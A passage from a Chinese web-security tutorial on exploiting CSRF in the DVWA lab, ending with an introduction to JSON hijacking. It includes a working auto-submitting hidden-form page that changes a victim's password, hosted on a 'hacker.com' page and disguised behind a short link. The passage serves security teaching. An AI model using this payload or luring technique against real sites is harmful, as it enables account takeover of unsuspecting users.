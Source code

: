 像这种 GET 型的 CSRF 漏洞利用就是仅需要修改下原 GET 的参数值，构造个链接发给对方就可以了；甚至直接使用图片链接嵌入到受害者可能访问的页面（博客、论坛、邮件等等），也可以实现漏洞的利用，这种利用方式更加隐蔽。

如果是 POST 请求，就需要编写利用代码，用 JS 脚本去实现自动提交表单，然后把它放在自己控制的服务器上。假设存放地址为 http://hacker.com/exploit.html ，再生成短网址 http://dwz.date/d74a 发给受害者。

![Drawing 4.png](https://s0.lgstatic.com/i/image2/M01/04/D0/CgpVE1_2hBiALUGsAAQ2XWTdSOE628.png)  
图 5：短网址生成

exploit.html 利用代码如下：

```xml
<html>
<form name = "test" action = "http://127.0.0.1/vulnerabilities/csrf" method = "post" >
<input type = "hidden" value="hacker" name="password_new" >
<input type = "hidden" value="hacker" name="password_conf" >
<input type = "hidden" value="Change" name="Change" >
</form>
<script>document.test.submit();</script>
</html>
```

这里是就模拟原网站的表单提交内容设置的，每个 input 都添加 type="hidden" 的属性是为了不在网页中显示，最后再利用 document.test.submit() 去自动提交表单，其中 "test" 是指 form 名单。

如果受害者访问上述包含 exploit.html 的 http://dwz.date/d74a ，就会发起以下请求：

![Drawing 5.png](https://s0.lgstatic.com/i/image/M00/8C/F6/CgqCHl_2hCCAEyT6AABwbigIZJo638.png)  
图 6：通过 POST 请求利用 CSRF 漏洞

DVWA 的 CSRF 题目没有 POST 请求，上述的利用方式主要介绍的是 POST 类型的利用手法。这种方法反而比较常用，相信你在未来的 CSRF 测试中能够用上。

### JSON 劫持攻击

JSON（JavaScript Object Notation，JavaScript 对象符号）是一种可以序列化任意数据，并能被 JavaScript 注释器直接处理的简单数据交换格式。我们来看一段 JSON 格式的包含用户信息的数据：

```json
{ 
  "people":[ 
    {
      "name": "Brett",
      "email":"Brett@qq.com"
    },
    {
      "name":"Jason",
      "Jason@lagou.com"
    }
  ]
}
```

JSON 劫持是一种特殊的 CSRF 攻击方式，本质上也是未对请求来源做有效校验导致的，它主要是用来窃取服务器返回的敏感信息。

实现 JSON 劫持主要有两种攻击方式：覆写数据构造器和执行回调函数。
